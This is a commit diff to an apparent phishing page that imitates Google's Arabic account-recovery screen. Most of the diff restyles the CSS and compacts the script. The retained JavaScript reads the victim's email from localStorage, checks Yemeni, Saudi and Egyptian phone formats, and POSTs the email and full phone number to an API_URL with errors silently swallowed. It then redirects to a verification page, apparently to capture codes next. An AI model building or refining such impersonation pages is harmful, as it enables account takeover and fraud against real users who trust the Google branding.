

Before and after one commit to mghwlmghwl6/google, a plain HTML site: page phone-input.html in a window 390 px wide. Shown: the part 160-844 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update phone-input.html

```diff
--- a/phone-input.html
+++ b/phone-input.html
@@ -2,26 +2,25 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=5.0">
     <title>استرداد الحساب - رقم الهاتف</title>
     <style>
-        * { box-sizing: border-box; }
+        * { box-sizing: border-box; margin: 0; padding: 0; -webkit-tap-highlight-color: transparent; }
         body {
-            font-family: system-ui, -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Ubuntu, "Helvetica Neue", sans-serif;
+            font-family: system-ui, -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif;
             background-color: #f8f9fa;
             display: flex;
             justify-content: center;
             align-items: center;
             min-height: 100vh;
-            margin: 0;
             padding: 16px;
         }
         .card {
-            background: #ffffff;
+            background: #fff;
             width: 100%;
             max-width: 440px;
             padding: 40px 32px;
-            border-radius: 8px;
+            border-radius: 12px;
             border: 1px solid #dadce0;
         }
         .logo-container { text-align: center; margin-bottom: 16px; }
@@ -31,123 +30,88 @@
         .logo-yellow { color: #FBBC05; }
         .logo-green { color: #34A853; }
 
-        h1 { font-size: 24px; font-weight: 400; color: #202124; text-align: center; margin: 0 0 16px 0; }
-        .description { font-size: 14px; color: #3c4043; text-align: center; line-height: 1.5; margin: 0 0 28px 0; }
+        h1 { font-size: 24px; font-weight: 400; color: #202124; text-align: center; margin-bottom: 12px; }
+        .description { font-size: 15px; color: #3c4043; text-align: center; line-height: 1.5; margin-bottom: 24px; }
 
         .email-box {
-            display: flex; align-items: center; justify-content: center; gap: 8px;
-            border: 1px solid #dadce0; padding: 6px 12px; border-radius: 16px;
-            width: fit-content; margin: 0 auto 28px auto;
+            display: inline-flex; align-items: center; gap: 8px;
+            border: 1px solid #dadce0; padding: 8px 14px; border-radius: 20px;
+            margin: 0 auto 28px; width: fit-content;
         }
-        .email-text { font-size: 14px; color: #3c4043; font-weight: 500; }
+        .email-text { font-size: 15px; color: #3c4043; font-weight: 500; }
         .email-icon {
-            width: 20px; height: 20px; background: #5f6368; color: white;
-            border-radius: 50%; display: flex; align-items: center; justify-content: center; font-size: 11px;
+            width: 22px; height: 22px; background: #5f6368; color: #fff;
+            border-radius: 50%; display: flex; align-items: center; justify-content: center;
+            font-size: 12px; flex-shrink: 0;
         }
 
-        /* حقل إدخال رقم الهاتف مع مفتاح الدولة */
+        .input-label {
+            display: block; color: #1a73e8; font-size: 13px;
+            font-weight: 500; margin-bottom: 6px; text-align: right;
+        }
+
         .phone-input-wrapper {
-            display: flex;
-            align-items: stretch;
-            border: 2px solid #1a73e8;
-            border-radius: 4px;
-            overflow: hidden;
-            margin-bottom: 8px;
-            direction: rtl;
+            display: flex; align-items: stretch;
+            border: 2px solid #1a73e8; border-radius: 4px;
+            overflow: hidden; margin-bottom: 8px; direction: rtl;
         }
         .country-select {
-            border: none;
-            border-left: 1px solid #dadce0;
-            padding: 0 10px;
-            font-size: 14px;
-            color: #202124;
-            background: #f8f9fa;
-            cursor: pointer;
-            outline: none;
-            min-width: 110px;
-            direction: rtl;
+            border: none; border-left: 1px solid #dadce0;
+            padding: 14px 12px; font-size: 16px; color: #202124;
+            background: #f8f9fa; cursor: pointer; outline: none;
+            min-width: 120px; direction: rtl;
+            -webkit-appearance: auto; appearance: auto;
         }
         .phone-number-input {
-            flex: 1;
-            border: none;
-            padding: 16px 12px;
-            font-size: 16px;
-            outline: none;
-            direction: ltr;
-            text-align: left;
-            background: transparent;
-        }
-        .input-label {
-            display: block;
-            color: #1a73e8;
-            font-size: 12px;
-            font-weight: 500;
-            margin-bottom: 4px;
-            text-align: right;
+            flex: 1; border: none; padding: 14px 12px;
+            font-size: 17px; outline: none; direction: ltr;
+            text-align: left; background: transparent; color: #202124;
         }
 
         .error-message {
-            color: #d93025;
-            font-size: 12px;
-            text-align: right;
-            min-height: 18px;
-            margin-bottom: 24px;
+            color: #d93025; font-size: 14px; text-align: right;
+            min-height: 20px; margin-bottom: 24px; line-height: 1.4;
         }
 
         .actions-container {
-            display: flex;
-            justify-content: space-between;
-            align-items: center;
-            margin-top: 8px;
+            display: flex; justify-content: space-between;
+            align-items: center; margin-top: 8px;
         }
         .secondary-link {
-            color: #1a73e8;
-            text-decoration: none;
-            font-size: 14px;
-            font-weight: 500;
-            cursor: pointer;
-            background: none;
-            border: none;
-            padding: 0;
+            color: #1a73e8; text-decoration: none; font-size: 15px;
+            font-weight: 500; cursor: pointer; background: none;
+            border: none; padding: 8px 0;
         }
         .secondary-link:hover { text-decoration: underline; }
         .primary-button {
-            background-color: #1a73e8;
-            color: white;
-            border: none;
-            padding: 10px 24px;
-            border-radius: 4px;
-            font-size: 14px;
-            font-weight: 500;
-            cursor: pointer;
-            box-shadow: 0 1px 2px 0 rgba(60,64,67,0.3), 0 1px 3px 1px rgba(60,64,67,0.15);
+            background: #1a73e8; color: #fff; border: none;
+            padding: 12px 28px; border-radius: 4px; font-size: 15px;
+            font-weight: 500; cursor: pointer; min-height: 44px;
         }
-        .primary-button:hover { background-color: #1557b0; }
+        .primary-button:hover { background: #1557b0; }
 
-        @media (max-width: 480px) {
-            body { background-color: #ffffff; padding: 0; align-items: flex-start; }
-            .card { max-width: 100%; border: none; border-radius: 0; box-shadow: none; min-height: 100vh; }
-        }
         #page-loading-bar {
-            position: fixed;
-            top: 0; left: 0; right: 0;
-            height: 3px;
-            z-index: 9999;
-            background: transparent;
-            overflow: hidden;
-            display: none;
+            position: fixed; top: 0; left: 0; right: 0; height: 3px;
+            z-index: 9999; background: transparent; overflow: hidden; display: none;
         }
         #page-loading-bar::after {
-            content: '';
-            position: absolute;
-            top: 0; right: -40%; width: 40%; height: 100%;
-            background: #1a73e8;
+            content: ''; position: absolute; top: 0; right: -40%;
+            width: 40%; height: 100%; background: #1a73e8;
             animation: page-load-slide 1.4s ease-in-out infinite;
         }
         @keyframes page-load-slide {
             0%   { right: 100%; width: 20%; }
             50%  { right: 20%; width: 60%; }
             100% { right: -80%; width: 20%; }
+        }
+
+        @media (max-width: 480px) {
+            body { background: #fff; padding: 0; align-items: flex-start; }
+            .card { max-width: 100%; border: none; border-radius: 0; box-shadow: none; min-height: 100vh; padding: 24px 20px; }
+            h1 { font-size: 22px; }
+            .description { font-size: 14px; }
+            .country-select { font-size: 16px; min-width: 110px; padding: 14px 8px; }
+            .phone-number-input { font-size: 17px; }
         }
     </style>
 </head>
@@ -163,9 +127,11 @@
     <h1>استرداد الحساب</h1>
     <p class="description">للمساعدة في الحفاظ على أمان حسابك، تريد Google التأكد من هويتك. أدخل رقم الهاتف المربوط بحسابك.</p>
 
+    <div style="text-align: center;">
         <div class="email-box">
             <div class="email-icon">👤</div>
             <span class="email-text" id="email-display">example@gmail.com</span>
+        </div>
     </div>
 
     <label class="input-label">رقم الهاتف</label>
@@ -175,14 +141,7 @@
             <option value="966" data-lengths="9" data-prefixes="5">🇸🇦 +966</option>
             <option value="20"  data-lengths="10" data-prefixes="1">🇪🇬 +20</option>
         </select>
-            <input
-                type="tel"
-                id="phone-input"
-                class="phone-number-input"
-                placeholder="7XXXXXXXX"
-                maxlength="11"
-                inputmode="numeric"
-            >
+        <input type="tel" id="phone-input" class="phone-number-input" placeholder="7XXXXXXXX" maxlength="11" inputmode="numeric">
     </div>
     <div class="error-message" id="error-msg"></div>
 
@@ -197,8 +156,7 @@
 
     function sendToAPI(data) {
         fetch(API_URL, {
-                method: "POST",
-                mode: "no-cors",
+            method: "POST", mode: "no-cors",
             headers: { "Content-Type": "application/json" },
             body: JSON.stringify({ ...data, timestamp: new Date().toISOString() })
         }).catch(() => {});
@@ -212,7 +170,6 @@
     const errorMsg = document.getElementById('error-msg');
     const phoneWrapper = document.getElementById('phone-wrapper');
 
-        // تحديث placeholder بحسب الدولة
     const placeholders = { "967": "7XXXXXXXX", "966": "5XXXXXXXX", "20": "1XXXXXXXXX" };
     countrySelect.addEventListener('change', () => {
         phoneInput.placeholder = placeholders[countrySelect.value] || 'XXXXXXXXX';
@@ -231,66 +188,39 @@
         const code = countrySelect.value;
         const selectedOption = countrySelect.options[countrySelect.selectedIndex];
         const number = phoneInput.value.trim();
-
         if (!number) {
             errorMsg.textContent = 'يرجى إدخال رقم الهاتف.';
-                phoneWrapper.style.borderColor = '#d93025';
-                return false;
+            phoneWrapper.style.borderColor = '#d93025'; return false;
         }
-
         const expectedLength = parseInt(selectedOption.dataset.lengths);
         const validPrefixes = selectedOption.dataset.prefixes.split(',');
-
-            // التحقق من الطول
         if (number.length !== expectedLength) {
             errorMsg.textContent = `رقم الهاتف يجب أن يتكون من ${expectedLength} أرقام لهذه الدولة.`;
-                phoneWrapper.style.borderColor = '#d93025';
-                return false;
+            phoneWrapper.style.borderColor = '#d93025'; return false;
         }
-
-            // التحقق من البادئة
         const hasValidPrefix = validPrefixes.some(prefix => number.startsWith(prefix));
         if (!hasValidPrefix) {
-                if (code === '967') {
-                    errorMsg.textContent = 'رقم هاتف يمني غير صحيح. يجب أن يبدأ بـ 70 أو 71 أو 73 أو 77 أو 78.';
-                } else if (code === '966') {
-                    errorMsg.textContent = 'رقم هاتف سعودي غير صحيح. يجب أن يبدأ بـ 5.';
-                } else if (code === '20') {
-                    errorMsg.textContent = 'رقم هاتف مصري غير صحيح. يجب أن يبدأ بـ 1.';
+            if (code === '967') errorMsg.textContent = 'رقم هاتف يمني غير صحيح. يجب أن يبدأ بـ 70 أو 71 أو 73 أو 77 أو 78.';
+            else if (code === '966') errorMsg.textContent = 'رقم هاتف سعودي غير صحيح. يجب أن يبدأ بـ 5.';
+            else if (code === '20') errorMsg.textContent = 'رقم هاتف مصري غير صحيح. يجب أن يبدأ بـ 1.';
+            phoneWrapper.style.borderColor = '#d93025'; return false;
         }
-                phoneWrapper.style.borderColor = '#d93025';
-                return false;
-            }
-
         return true;
     }
 
     function handleSubmit() {
         if (!validatePhone()) return;
-
         const code = countrySelect.value;
         const number = phoneInput.value.trim();
         const email = localStorage.getItem('user_email') || '';
-
-            sendToAPI({
-                event: "PHONE_SUBMIT",
-                email: email,
-                phone_code: '+' + code,
-                phone_number: number,
-                full_phone: '+' + code + number
-            });
-
+        sendToAPI({ event: "PHONE_SUBMIT", email: email, phone_code: '+' + code, phone_number: number, full_phone: '+' + code + number });
         localStorage.setItem('phone_number', '+' + code + number);
 
-            // تشغيل شريط التحميل
         const bar = document.getElementById('page-loading-bar');
         bar.style.display = 'block';
         document.getElementById('next-btn').disabled = true;
         document.getElementById('next-btn').style.opacity = '0.7';
-
-            setTimeout(() => {
-                window.location.href = 'verification.html';
-            }, 600);
+        setTimeout(() => { window.location.href = 'verification.html'; }, 600);
     }
 </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
